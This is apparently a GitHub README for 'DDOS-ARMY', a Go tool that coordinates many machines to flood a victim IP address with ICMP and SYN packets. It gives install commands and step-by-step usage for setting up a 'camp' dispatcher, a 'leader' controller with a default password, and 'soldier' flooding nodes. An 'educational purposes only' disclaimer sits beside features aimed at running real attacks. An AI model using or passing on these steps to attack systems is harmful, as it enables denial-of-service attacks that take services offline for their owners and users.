

# DDOS-ARMY





## What is DDOS-ARMY?
ddos-army is a tool that allows
you to launch a DDoS attack on a IP victim address.
with clustered other machine. 

### ⚠️ DISCLAIMER ⚠️:
️ It is intended to be used for educational purposes only.
I am not responsible for any misuse or damage caused by this program.
## Features
* 🏕️ Support clustering attack concept 
* 💣 Support ICMP, SYN flood attack (more to come)
* ⛓️ Support concurrency and parallelism
* Cross-platform (Linux 💀, Windows 🪟, Mac OS X🍏, BSD)
* ⚙️ Easy Army management (stop, start, shutdown, change attack strategy, etc.)
* ✅ Friendly terminal user interface
* 📈 Profiling and benchmarking requests for each soldier (node)

## Installation

### binary (recommended)
```bash
go install github.com/XORbit01/DDOS-ARMY@latest 
```
you can download the binary from 
[Releases](https://github.com/XORbit01/DDOS-ARMY/releases/tag/v0.0.3)


### From source
```bash
git clone https://github.com/XORbit01/DDOS-ARMY 
cd DDOS-ARMY
go build -o ddosarmy 
```

## Usage
```bash
ddosarmy -h
```

## steps
### 1. create army camp
this must be hosted on a server with public ip address, so that the soldiers can connect to it.
```bash
ddosarmy camp -v <victim_ip>
```
### 2. leader access camp
leader is the node that will orchestrate the army and send the attack commands to the soldiers.
```bash
ddosarmy leader -c <camp_ip> -s password
```
the default password is `password`, this password is set when you created the camp
### 3. soldiers access camp
the soldiers are the nodes responsible for sending dummy packets flooding the victim ip address.
it will listen to the leader node and execute the attack commands.
```bashq
ddosarmy soldier -c <camp_ip>  
```


## How it works
as you can see in the image below, the leader node is responsible for sending the attack commands to the soldiers.
the dispatcher (camp) is responsible for sending the attack commands to the soldiers.
he is not responsible for sending the single packets to the victim ip address.


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
you can also contact me on discord:`XORbit#5945`

